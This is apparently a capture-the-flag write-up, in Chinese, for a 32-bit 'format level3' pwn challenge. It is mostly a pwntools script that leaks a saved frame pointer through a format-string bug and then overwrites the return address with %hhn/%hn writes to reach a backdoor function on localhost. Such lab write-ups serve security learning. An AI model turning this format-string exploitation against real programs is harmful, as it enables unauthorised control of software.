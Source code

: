 # format level3

## 文件分析

下载`format_level3`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 逆向

和level2类似，存在后门，但是输入的str放到了.bss上

踩过的坑：16字节还想把栈迁移到.bss上？直接爆了（栈上的空间本来也不够）

正解：通过ebp+4来利用ebp间接改写返回地址

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 39665)

# payload 1
sh.sendline(b'3')
sh.sendline(b'%6$p')

prevEbp = int(sh.recvuntil(b'\nBut', True)[-10:], 16) # ebp -> prevEbp -> prevPrevEbp
retAddr = prevEbp + 4

# payload 2
sh.sendline(b'3')
sh.sendline(f'%{retAddr & 0xff}d%6$hhn'.encode())     # ebp -> prevEbp -> retAddr

# payload 3
sh.sendlineafter(b'ice:',b'3') # 不加after会导致所有输出全部挤在一起，原因未知
sh.sendline(f'%{0x9317}d%14$hn'.encode()) # retAddr: main -> success

# payload 4
sh.sendlineafter(b'ice:', b'4') # let it return

sh.interactive()
```

Done.
